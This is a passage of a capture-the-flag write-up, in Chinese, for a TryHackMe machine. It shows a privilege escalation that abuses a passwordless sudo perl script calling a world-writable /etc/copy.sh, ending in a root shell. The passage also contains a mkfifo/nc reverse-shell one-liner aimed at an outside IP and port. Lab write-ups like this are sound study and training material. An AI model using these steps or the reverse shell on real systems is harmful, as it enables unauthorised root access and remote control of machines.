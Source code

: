 ```!=
THM{63...07}
```

## 提權

### sudo -l
先掃 sudo 發現
`/usr/bin/perl /home/itguy/backup.pl`
```!=
www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

看一下權限  
發現我只能執行 QQ  
```!=
www-data@THM-Chal:/$ ls -la /home/itguy/backup.pl
ls -la /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
```

看一下檔案內容
```!=
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

感覺 `/etc/copy.sh` 可操作  
看一下權限 發現可讀寫  
```!=
www-data@THM-Chal:/$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

把它改成執行 bash  
提權成功  
```!=
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/$ echo '#!/bin/bash' > /etc/copy.sh
echo '#!/bin/bash' > /etc/copy.sh
www-data@THM-Chal:/$ echo '/bin/bash' >> /etc/copy.sh
echo '/bin/bash' >> /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
#!/bin/bash
/bin/bash
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
root@THM-Chal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
取得 root.txt